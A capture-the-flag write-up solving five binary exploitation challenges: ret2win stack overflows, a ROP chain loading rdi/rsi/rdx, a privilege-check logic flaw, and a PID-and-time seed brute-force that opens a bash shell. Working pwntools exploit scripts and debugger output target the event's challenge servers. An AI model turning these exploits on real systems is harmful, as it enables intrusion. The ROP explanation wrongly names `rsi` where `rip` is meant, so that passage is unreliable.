

# 1. Property in Manipal

## Solution:

After decompiling the binary, we see three functions: `main`, `vuln` and `win`. This looks like a classic ret2win challenge.
I copied a 150 character De Bruijn sequence into my clipboard directly using `ragg2 -P 150 -r | wl-copy`. 
Next I opened the binary in `radare2` using `r2 -d -A manipal` and run `dc` (debug continue) to start execution. We paste the De Bruijn Sequence in the second input, since it's using a simple `gets()` function that does not perform out of bounds checking.
```console
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
96565
[0x7f14c1e61b40]> dc
I bought a property in Mandavi
& what they do for you is,
they give you the property.
Enter your name to signup for the property: Gaurav
Hello, Gaurav

Enter the amount for customizations: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAA
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 si_pid=0 ret=0
```
Next we determine the offset needed using the `wopO` command along with the address of the `rsp` register.
```console
wopO `pv @ rsp`
72
```

The reason we use the `rsp` register and not something like `rip` is because on 64-bit machines, the CPU performs canonical checks to see if it's an actually valid memory location. When we overflow the return address location with `0x4141414141414141`, the CPU rejects it and does not move it into the `rip` register when the `ret` instruction is called (The `ret` instruction tries to pop the return address at the stack onto `rip`). But the `rsp` register still holds our invalid address perfectly fine, which is why we use it.

So, now that the offset is known it's a simple matter of making the script to exploit it. We use the `ret_gadget` to fix stack alignment problems created when overwriting the return address.

```python
from pwn import *

# p = process("./manipal")
p = remote('propertyinmanipal.nitephase.live', 42586)

# payload += p64(0x00401196)
elf = ELF("./manipal")
rop = ROP(elf)
addr = elf.symbols['win']
ret_gadget = rop.find_gadget(['ret'])[0]

payload = b'A' * 72 + p64(ret_gadget) + p64(addr)

p.sendlineafter(b"property:", b"Gaurav")
p.sendlineafter(b"customizations:", payload)
p.interactive()
```

## Flag:

```
nite{ch0pp3d_ch1n_r34lly_m4d3_2025_p34k_f0r_u5}
```

## Concepts learnt:

- Buffer Overflow attacks
- Finding offsets
- Using the `pwn` python module
- Using `radare2` 

## Notes:

- Took some time figuring out how to adapt ir0nstone's guide to 64-bit binaries.

## Resources:

- https://ir0nstone.gitbook.io/notes/binexp/stack/introduction


***

# 2. Performative

## Solution:

Another ret2win challenge, similar to the previous ones. Steps remain the same.
Finding offset:
```console
r2 -d -A perf
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
INFO: Analyze entrypoint (af@ entry0)
INFO: Analyze symbols (af@@@s)
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Analyzing methods (af @@ method.*)
INFO: Recovering local variables (afva@@@F)
INFO: Skipping type matching analysis in debugger mode (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Integrate dwarf function information
INFO: Use -AA or aaaa to perform additional experimental analysis
[0x7f587d2ceb40]> dc
### Welcome to the performative male/female parade! ###

Yk what performative people like? just a plain ol' bof!

Lets just generate a buffer then ig?

Buffer: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAA
Generating your buffer...

Your custom buffer:
========================
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAA
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 si_pid=0 ret=0
[0x004013b2]> wopO `pv @ rsp`
40
```

Script:
```python
from pwn import *

elf = ELF("./perf")
rop = ROP(elf)

# p = process("./perf")
p = remote("performative.nitephase.live", 56743)

ret_gadget = rop.find_gadget(['ret'])[0]
addr = elf.symbols['win']
payload = b'A' * 40 + p64(ret_gadget) + p64(addr)

p.sendlineafter(b"Buffer: ", payload)
p.interactive()
```
## Flag:

```
nite{th3_ch4l_4uth0r_15_4nt1_p3rf0rm4t1v3}
```
## Concepts learnt:

- Buffer Overflow attacks
- Finding offsets
- Using the `pwn` python module
- Using `radare2` 
## Resources:

- https://ir0nstone.gitbook.io/notes/binexp/stack/introduction


***

# 3. IQ Test

## Solution:

The first part was a simple buffer overflow attack. The second one asked us to pass arguments to functions. In 64-bit binaries, these arguments are stored in registers in the order `rdi` `rsi` `rdx` `rcx` `r8` `r9` and any more arguments are put onto the stack.
So, to call functions with our custom arguments, we make use of gadgets. For the `rdi` register, we use the gadget consisting of `pop rdi; ret`. Then our payload structure looks like this:
- gadget address (`pop rdi; ret`)
- argument (`0xDEADBEEF`)
- return address
Now, when our vulnerable function returns (using the `ret` command which is equivalent to `pop rip`), we pop the address of the gadget and that gets stored into `rsi`. Since `rsi` is used to store the address of the next instruction, we end up running the gadget and `rsp` points to our custom argument.
In the gadget: `pop rdi` takes our argument, stores it in `rdi`.
Finally, the `ret` function (equivalent to `pop rip`) in the gadget runs, which pops our return address into `rip`. Therefore execution then continues from that function onwards.
We repeat this process for all other registers as required.

To find the address of the required gadgets, we use the `ROPgadget` util. For example, the `pop rsi; ret` gadget:
```console
$ ROPgadget --binary chall | grep rsi
0x0000000000401841 : pop rsi ; pop r15 ; ret
0x00000000004017d8 : pop rsi ; ret
```

Script to deliver payloads:
```python
from pwn import *

# p = process("./chall")
p = remote("iqtest.nitephase.live", 51823)
elf = ELF("./chall")
rop = ROP(elf)

ret_gadget = rop.find_gadget(['ret'])[0]
win1 = elf.symbols['win1']
payload1 = b'A'*152 + p64(ret_gadget) + p64(win1)

print(payload1.decode())
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"4")
p.sendline(payload1)

pop_rdi_ret = 0x00000000004017d6
win2 = elf.symbols['win2']
payload2 = b'A'*40 + p64(pop_rdi_ret) + p64(0xdeadbeef) + p64(ret_gadget) + p64(win2)
p.sendline(payload2)


pop_rsi_ret = 0x00000000004017d8
pop_rdx_ret = 0x00000000004017da
win3 = elf.symbols['win3']
payload3 = b'A' * 56 + p64(pop_rdi_ret) + p64(0xdeadbeef) + p64(pop_rsi_ret) + p64(0xdeafface) + p64(pop_rdx_ret) + p64(0xfeedcafe) + p64(ret_gadget) + p64(win3)

p.sendline(payload3)
p.interactive()
```

The offset for the first BoF was done using `radare2`, however since the next two functions were relatively simple, I looked at the size of the  buffer being allocated and added +8 to accommodate for `rbp` to determine the offset.

```
python exploit.py 
[+] Opening connection to iqtest.nitephase.live on port 51823: Done
[*] '/home/gaurav/Projects/gaurav_phase2/custom_challenges/BinEx/iqtest-binex/src/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[*] Loaded 16 cached gadgets for './chall'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@\x00\x00\x00\x00\x00\x01\x14@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
Correct!
You may have passed my test but I must see you display your knowledge before you can access my secrets
Lesson 1: For your first challenge you have to simply jump to the function at this address: 0x401401
You have passed the first challenge. The next one won't be so simple.
Lesson 2 Arguments: Research how arguments are passed to functions and apply your learning. Bring the artifact of 0xDEADBEEF to the temple of 0x401314 to claim your advance.nite{d1d_1_g3t_th3_fl4g?}
Continue: 
You have done well, however you still have one final test. You must now bring 3 artifacts of [0xDEADBEEF] [0xDEAFFACE] and [0xFEEDCAFE]. You must venture out and find the temple yourself. I believe in you
nite{1_th1nk_1_f1n4lly_g0t_my_fl4g_n0w;)}
Final Test: 
Congratulations. You are deserving of you reward

nite{1m_th3_r34l_fl4g_blud_4l50_6-1_1s_m0r3_tuf}
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to iqtest.nitephase.live port 51823
[*] Got EOF while sending in interactive
```

## Flag:

```
nite{d1d_1_g3t_th3_fl4g?}
nite{1_th1nk_1_f1n4lly_g0t_my_fl4g_n0w;)}
nite{1m_th3_r34l_fl4g_blud_4l50_6-1_1s_m0r3_tuf}
```

## Concepts learnt:

- Passing arguments to functions with ROP attacks
- Determining offset using static analysis.

## Resources:

- https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming


***

# 4. ImmaDeveloper

## Solution:

Running `checksec` in the binary, we immediately see that this binary is different from the other binaries.

This binary has a Canary as well as PIE enabled.

So, going into this I was bracing myself, but turns out it was just a simple logic based exploit. The flaw exists in this part of the decompiled code (some variables have been renamed):
```c
if ((choices_buffer[0] == 2) && (_Var3 = geteuid(), _Var3 != 0)) {
    bVar2 = true;
  }
  else {
    bVar2 = false;
  }
  if (bVar2) {
    poVar5 = std::operator<<((ostream *)std::cout,"Error: Option 2 requires root privileges HAHA");
    std::ostream::operator<<(poVar5,std::endl<>);
  }
  else {
    for (local_5cc = 0; local_5cc < counter; local_5cc = local_5cc + 1) {
      iVar1 = choices_buffer[local_5cc];
      if (iVar1 == 3) {
        login();
      }
      else if (iVar1 < 4) {
        if (iVar1 == 1) {
          sayHello();
        }
        else if (iVar1 == 2) {
          printFlag();
        }
      }
    }
  }
```

The program only checks the first index for Option 2, and since each line of input is parsed integer by integer, we can essentially give just two integers `1 2`, and since the check only happens for the first index which is `1`, we pass it and get the flag.
```console
nc immadeveloper.nitephase.live 61234
Hi I'm sudonymouse!
I'm learning development, checkout this binary!
Option 1: Hello <USER>
Option 2: Flag(maybe?)
Option 3: Log into my binary!
1 2
Input your name: Gaurav
Hi Gaurav
nite{n0t_4ll_b1n3x_15_st4ck_b4s3d!}
```
## Flag:

```
nite{n0t_4ll_b1n3x_15_st4ck_b4s3d!}
```

***

# 5. Hungry

## Solution:

In the `take_order` function, we can see that if we input `$`, it takes is to the manager control panel. For brevity's sake, I will include only the relevant functions:
```c
void manager_control_panel(void) {
  # shortened for brevity  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  tVar2 = time((time_t *)0x0);
  uVar1 = getpid();
  srand(uVar1 ^ (uint)tVar2);
  local_24 = FUN_004011a0();
  local_24 = local_24 % 1000000;
  printf("Enter manager access code: ");
  __isoc99_scanf(&DAT_0040214e,&local_28);
  if (local_24 != local_28) {
    puts("Incorrect code. Get back to work, frycook!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Access granted, starting management interface.");
  execl("/bin/bash","/bin/bash",0);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

So, we can see that we set the seed for the rand functions by XORing the PID of the process along with the current unix time. `FUN_004011a0` in this decompilation is just a call to the `rand()` function.
So, all we have to do is to calculate the seed, find the first random number generated and feed it to the process.
The simplest method is to try every PID, which lies in the range of 0 to 32767. Then we calculate the current time per connection, which accounts for the passage of time while trying each PID. Here's the script I made to do so:
```python
from pwn import *
import time
import ctypes
import ctypes.util

libc = ctypes.CDLL(ctypes.util.find_library('c'))

for pid in range(1, 32768):
    p = remote("hunger.nitephase.live", 53791)
    time = int(libc.time(None))
    libc.srand(pid ^ time)
    p.recvuntil(b"(y/n)? ")
    p.sendline(b"$")
    p.recvuntil(b"code:")
    p.sendline(str(libc.rand() % 1000000).encode())
    output = p.clean()
    if b"granted" in output:
        print(output)
        p.interactive()
        break
```

```
python solve.py
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
[+] Opening connection to hunger.nitephase.live on port 53791: Done
b' Access granted, starting management interface.\n'
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
nite{s1ndh1_15_m0r3_f1ll1ng_th4n_bk_or_mcd}
```

## Flag:

```
nite{s1ndh1_15_m0r3_f1ll1ng_th4n_bk_or_mcd}
```


***

